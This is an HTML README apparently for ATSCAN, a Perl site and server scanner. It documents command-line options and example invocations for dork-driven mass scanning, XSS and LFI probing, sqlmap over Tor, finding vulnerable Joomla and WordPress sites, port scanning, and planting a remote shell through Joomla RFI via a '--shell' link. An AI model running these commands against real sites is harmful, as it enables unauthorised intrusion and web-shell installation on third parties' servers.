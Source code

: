 
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
</head>
<body>
<h1 align="center">ATSCAN</h1>
<p align="center"> <b>Search / Site / Server Scanner </b></p>
<center><img src="http://i.imgur.com/jUt3Gn7.png" /></center>
<table border="0" cellpadding="2" cellspacing="2" width="100%">
  <tr>
    <td align="center" class="main3"><b>Alisam Technology is not responsible for any misuse, damage caused by this script or attacking targets without prior mutual consent!<b></td>
  </tr>
</table>
<br />
<table border="0" cellpadding="0" cellspacing="2" width="100%">
  <tr>
    <td width="100px" class="main2">AUTHOR:</td><td>Alisam@Technology</td>
  </tr>
  <tr>
    <td width="100px" class="main2">FACE:</td><td>facebook.com/Forces.des.tempetes.marocaines</td>
  </tr>
  <tr>
    <td width="100px" class="main2">YOUTUBE:</td><td>youtube.com/c/AlisamTechnology</td>
  </tr>
  <tr>
    <td width="100px" class="main2">WITTER:</td><td>twitter.com/AlisamTechno</td>
  </tr>
  <tr>
    <td width="100px" class="main2">PLUS:</td><td>plus.google.com/+AlisamTechnology</td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3">Description:</td>
  </tr>
  <tr>
    <td class="main">ATSCAN <br /> SEARCH engine <br />XSS scanner. <br /> Sqlmap.<br /> 
        LFI scanner.<br /> Filter wordpress and Joomla sites in the server. <br />Find Admin page.<br /> Decode / Encode MD5 + Base64. <br />This this my first script im sure is full with mistakes!! 
    </td>
  </tr>
</table>
<br />
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3"> Libreries to install:</td>
  </tr>
  <tr>
    <td class="main">
      ap-get install libxml-simple-perl <br/>
      aptitude install libio-socket-ssl-perl <br/>
      aptitude install libcrypt-ssleay-perl <br/>
      NOTE: Works in linux platforms. Best Run on Ubuntu 14.04, Kali Linux 2.0, Arch Linux, Fedora Linux, Centos | if you use a windows you can download manualy.
    </td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3">Download & Executution:</td>
  </tr>
  <tr>
    <td class="main">
      git clone https://github.com/AlisamTechnology/ATSCAN <br/>
      cd ATSCAN <br/>
      chmod +x ATSCAN <br/>
      ./ATSCAN <br/>
      OR <br/>
      $chmod +x atscan.pl  <br/>
      Execute: perl ./atscan.pl <br/>
      Execute: perl ./atscan.pl --help
    </td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3">Screenshots:</td>
  </tr>
  <tr>
    <td align="center">
    <img src="http://i.imgur.com/J0fM1PB.jpg" /><br/><br/>
    <img src="http://i.imgur.com/JGBKRGw.jpg" /><br/><br/>
    <img src="http://i.imgur.com/HxdjrM8.jpg" /><br/><br/>
    <img src="http://i.imgur.com/yZOSiei.jpg" /><br/><br/>
    </td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3">Help:</td>
  </tr>
  <tr>
    <td class="main"><table border="0" cellpadding="2" cellspacing="5" width="100%">
      <tr>
        <td width="100px" class="main">--tor</td>
        <td class="main">tor proxy [DEFAULT:socks://localhost:9050] Change if needed!</td>
      </tr>
      <tr>
         <td width="100px" class="main">--dork</td>
        <td class="main">Search engine</td>
      </tr>
      <tr>
        <td width="100px" class="main">--mp</td>
        <td class="main">set number of page results to scan</td>
      </tr>
      <tr>
        <td width="100px" class="main">--xss</td>
        <td class="main">Xss scan</td>
      </tr>
      <tr>
        <td width="100px" class="main">--lfi</td>
        <td class="main">lfi scan</td>
      </tr>
      <tr>
        <td width="100px" class="main">-t</td>
        <td class="main">Target</td>
      </tr>
      <tr>
        <td width="100px" class="main">-l</td>
        <td class="main">List name</td>
      </tr>
      <tr>
        <td width="100px" class="main">--exp</td>
        <td class="main">Set exploit</td>
      </tr>
      <tr>
        <td width="100px" class="main">--valid</td>
        <td class="main">Text for validate results</td>
      </tr>
      <tr>
        <td width="100px" class="main">--sqlmap</td>
        <td class="main">Sqlmaping xss results</td>
      </tr>
      <tr>
        <td width="100px" class="main">--sqlmaptor</td>
        <td class="main">Sqlmaping xss results using tor proxy</td>
      </tr>
      <tr>
        <td width="100px" class="main">--lfi</td>
        <td class="main">local file inclusion</td>
      </tr>
      <tr>
        <td width="100px" class="main">--joomrfi</td>
        <td class="main">get joomla sites with rfi in the server</td>
      </tr>
      <tr>
        <td width="100px" class="main">--shell</td>
        <td class="main">shell link [Ex: http://www.site.com/shell.txt]</td>
      </tr>
      <tr>
        <td width="100px" class="main">--wpadf</td>
        <td class="main">get wordpress sites with arbitery file download in the server</td>
      </tr>
      <tr>
        <td width="100px" class="main">--admin</td>
        <td class="main">get site admin page</td>
      </tr>
      <tr>
        <td width="100px" class="main">--shost</td>
        <td class="main">get site subdomains</td>
      </tr>
      <tr>
        <td width="100px" class="main">--ports</td>
        <td class="main">scan server ports</td>
      </tr>
      <tr>
        <td width="100px" class="main">--start</td>
        <td class="main">start scan port</td>
      </tr>
      <tr>
        <td width="100px" class="main">--end</td>
        <td class="main">end scan port</td>
      </tr>
      <tr>
        <td width="100px" class="main">--tcp</td>
        <td class="main">tcp ports</td>
      </tr>
      <tr>
        <td width="100px" class="main">--udp</td>
        <td class="main">udp ports</td>
      </tr>
      <tr>
        <td width="100px" class="main">--all</td>
        <td class="main">complete mode</td>
      </tr>
      <tr>
        <td width="100px" class="main">--basic</td>
        <td class="main">basic mode</td>
      </tr>
      <tr>
        <td width="100px" class="main">--select</td>
        <td class="main">Select mode you can set rang of ports</td>
      </tr>
      <tr>
        <td width="100px" class="main">--sites</td>
        <td class="main">sites in the server</td>
      </tr>
      <tr>
        <td width="100px" class="main">--wp</td>
        <td class="main">wordpress sites in the server</td>
      </tr>
      <tr>
        <td width="100px" class="main">--joom</td>
        <td class="main">joomla sites in the server</td>
      </tr>
      <tr>
        <td width="100px" class="main">--upload</td>
        <td class="main">get sites with upload files in the server</td>
      </tr>
      <tr>
        <td width="100px" class="main">--zip</td>
        <td class="main">get sites with zip files in the server</td>
      </tr>
      <tr>
        <td width="100px" class="main">--st</td>
        <td class="main">string</td>
      </tr>
      <tr>
        <td width="100px" class="main">--md5</td>
        <td class="main">convert to md5</td>
      </tr>
      <tr>
        <td width="100px" class="main">--encode64</td>
        <td class="main">encode base64 string</td>
      </tr>
      <tr>
        <td width="100px" class="main">--decode64</td>
        <td class="main">decode base64 string</td>
      </tr>
      <tr>
        <td width="100px" class="main">--isup</td>
        <td class="main">check http status 200</td>
      </tr>
      <tr>
        <td width="100px" class="main">--httpd</td>
        <td class="main">print site httpd version</td>
      </tr>
    </table></td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3">Examples:</td>
  </tr>
  <tr>
    <td class="main">
    <b>Simple search: </b><br/>
    --dork DORK --mp [number of page results to scan]<br/>
    --dork [DORK1,DORK2,DORK3..] --mp [number of page results to scan]<br/>
    --dork [DORK.txt] --mp [number of page results to scan from list]<br/><br/>
    <b>Subscan from Serach Engine: </b><br/>
    Xss: --dork DORK --mp 1 --xss<br/>
    Xss: --dork DORKS.TXT --mp 1 --xss <br/>
    Lfi: --dork DORK --mp 1 --lfi<br/>
    Search + Command: --dork DORK --mp VALUE --command 'curl -v' --TARGET<br/><br/>
    <b>Validation: </b><br/>
    Xss: --dork DORK --mp 1 --xss --valid TEXT <br/>
    Lfi: --dork DORK --mp 1 --lfi --valid TEXT <br/>
    Xss: --dork DORK --mp 1 --xss --isup <br/>
    Lfi: --dork DORK --mp 1 --xss --isup <br/>
    Xss: --dork DORKS.TXT --mp 1 --xss --valid TEXT <br/>
    Lfi: --dork DORKS.TXT --mp 1 --lfi --valid TEXT <br/>
    Xss: --dork DORKS.TXT --mp 1 --xss --isup <br/>
    Lfi: --dork DORKS.TXT --mp 1 --xss --isup <br/><br/>
    <b>Use List / Target: </b><br/>
    Xss: -t TARGET --xss <br/>
    Lfi: -l TARGET --lfi <br/>
    Xss + Validation: -t TARGET --xss --valid TEXT <br/>
    Lfi + Validation: -t TARGET --lfi --valid TEXT  <br/>
    Xss + Validation: -l list.txt --xss --isup <br/>
    Lfi + Validation: -l list.txt --lfi --isup  <br/>
    Find admin page: -t TARGET --admin  <br/>
    Find subdomains: -t TARGET --shost  <br/><br/>
    
    <b>Server: </b>  <br/>
    Get Server sites: -t IP --mp [VALUE] --sites   <br/>
    Get Server sites: -t IP.txt --mp [VALUE] --sites   <br/>
    Get Server wordpress sites: -t IP --mp [VALUE] --wp   <br/>
    Get Server joomla sites: -t IP --mp [VALUE] --joom   <br/>
    Get Server upload sites: -t IP --mp [VALUE] --upload   <br/>
    Get Server zip sites files: -t IP --mp [VALUE] --zip   <br/>
    WP Arbitry File Download: -t IP --mp [VALUE] --wpadf   <br/>
    Joomla RFI: -t IP --mp <1> --joomfri --shell SHELL LINK   <br/>
    Scan basic tcp (quick): -t IP --ports --basic --tcp   <br/>
    Scan basic udp basic (quick): -t IP --ports --basic --udp   <br/>
    Scan basic udp+tcp: -t IP --ports --basic --udp --tcp   <br/>
    Scan complete tcp: -t IP --ports --all --tcp   <br/>
    Scan complete udp: -t IP --ports --all --udp   <br/>
    Scan complete tcp+udp: -t IP --ports --all --udp --tcp   <br/>
    Scan rang tcp: -t IP --ports --select --start --end --tcp   <br/>
    Scan rang udp: -t IP --ports --select --start --end --udp   <br/>
    Scan rang udp + tcp: -t IP --ports --select --start VALUE --end VALUE --udp --tcp <br/><br/>
    <b>Encode / Decode:  </b> <br/>
    Generate MD5: -st STRING --md5 <br/>
    Encode base64: -st STRING --encode64  <br/> 
    Decode base64: -st STRING --decode64 
    </td>
  </tr>
</table>  
</body>
</html>
